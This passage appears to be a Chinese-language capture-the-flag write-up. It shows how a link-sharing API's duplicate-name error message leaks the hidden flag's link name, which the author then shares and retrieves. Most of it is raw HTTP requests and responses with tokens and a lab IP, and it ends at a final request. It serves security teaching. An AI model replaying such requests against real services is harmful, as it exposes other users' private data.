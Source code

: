 **没有发现任何有用的东西:**

```
{"code":200,"data":{"test":"keep going :)"}}
```

**管理员有 5 个链接，其中之一是旗帜，我有除了旗帜`link_name`的一切。我进行了许多测试，最终，我发现如果我共享一个存在于数据库中的`link_name`，端点会泄露链接名称:**

```
POST /api/links/share HTTP/1.1
auth-token: 1.7974d396f5cfcdbe3433037c11e819ca
device-id: c515834365310176f8117a18bb5ad994
Content-Type: application/json
Content-Length: 46
Host: 66.172.33.148:5001
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.10.0{"link":"test","link_name":"test","private":1}
```

**回应是:**

```
HTTP/1.1 200 OK
Server: nginx/1.15.8
Date: Mon, 18 Nov 2019 11:08:49 GMT
Content-Type: application/json
Content-Length: 134
Connection: close{"code":400,"data":{"err":"you cannot pick the link name which has already exists ['test', 'google', '**thefl4g_Not3**', 'a', 'local']"}}
```

**我分享了这面旗，然后读了它:**

```
HTTP/1.1 200 OK
Server: nginx/1.15.8
Date: Mon, 18 Nov 2019 11:10:11 GMT
Content-Type: application/json
Content-Length: 61
Connection: close{"code":200,"data":{"link":"[https://ShareL.tld/fL/r34d_me](https://ShareL.tld/fL/r34d_me)"}}
```

**然后:**

```
GET /fL/r34d_me HTTP/1.1
auth-token: 6.4f9dd56abac816f917c720a7c46d4044
device-id: c515834365310176f8117a18bb5ad994
Content-Type: application/json
Content-Length: 0
Host: 66.172.33.148:5001
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.10.0
```
